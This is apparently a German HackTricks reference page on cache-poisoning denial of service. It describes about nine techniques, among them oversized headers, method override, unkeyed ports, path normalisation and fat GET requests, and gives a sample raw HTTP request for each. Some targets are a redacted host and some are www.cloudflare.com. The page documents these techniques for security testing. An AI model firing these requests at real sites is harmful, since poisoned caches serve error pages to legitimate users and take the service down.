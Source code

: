 # Cache Poisoning to DoS

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

{% hint style="danger" %}
Auf dieser Seite finden Sie verschiedene Variationen, um zu versuchen, den **Webserver dazu zu bringen, mit Fehlern** auf Anfragen zu reagieren, die **gültig für die Cache-Server sind**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Senden Sie eine Anfrage mit einer Headergröße, die größer ist als die vom Webserver unterstützte, aber kleiner als die vom Cache-Server unterstützte. Der Webserver wird mit einer 400-Antwort antworten, die möglicherweise zwischengespeichert wird:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unerwartete Werte**

Senden Sie einen Header, der einige **schädliche Metazeichen** wie  und  enthält. Damit der Angriff funktioniert, müssen Sie zuerst den Cache umgehen.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
Ein schlecht konfiguriertes Header könnte einfach `\:` als Header sein.

Dies könnte auch funktionieren, wenn unerwartete Werte gesendet werden, wie ein unerwarteter Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Unkeyed header**

Einige Websites geben einen Fehlerstatuscode zurück, wenn sie **bestimmte Header i**m Request sehen, wie mit dem _X-Amz-Website-Location-Redirect: someThing_ Header:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Wenn der Server das Ändern der HTTP-Methode mit Headern wie `X-HTTP-Method-Override`, `X-HTTP-Method` oder `X-Method-Override` unterstützt, ist es möglich, eine gültige Seite anzufordern, indem die Methode geändert wird, sodass der Server sie nicht unterstützt und eine fehlerhafte Antwort zwischengespeichert wird:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Unkeyed Port**

Wenn der Port im Host-Header in der Antwort widergespiegelt wird und nicht im Cache-Schlüssel enthalten ist, ist es möglich, ihn auf einen ungenutzten Port umzuleiten:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Wie im folgenden Beispiel wird x nicht zwischengespeichert, sodass ein Angreifer das Verhalten der Umleitungsantwort ausnutzen könnte, um die Umleitung eine URL so groß senden zu lassen, dass ein Fehler zurückgegeben wird. Dann erhalten Personen, die versuchen, auf die URL ohne den nicht zwischengespeicherten x-Schlüssel zuzugreifen, die Fehlerantwort:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalisierung der Groß- und Kleinschreibung des Host-Headers**

Der Host-Header sollte nicht zwischen Groß- und Kleinschreibung unterscheiden, aber einige Websites erwarten, dass er in Kleinbuchstaben geschrieben ist und geben einen Fehler zurück, wenn dies nicht der Fall ist:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Pfadnormalisierung**

Einige Seiten geben Fehlercodes zurück, wenn Daten URLencode im Pfad gesendet werden, jedoch wird der Cache-Server den Pfad URLdecode und die Antwort für den URLdecoded Pfad speichern:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Einige Cache-Server, wie Cloudflare, oder Webserver, stoppen GET-Anfragen mit einem Body, sodass dies missbraucht werden könnte, um eine ungültige Antwort zu cachen:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## Referenzen

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos sendest.

</details>
{% endhint %}
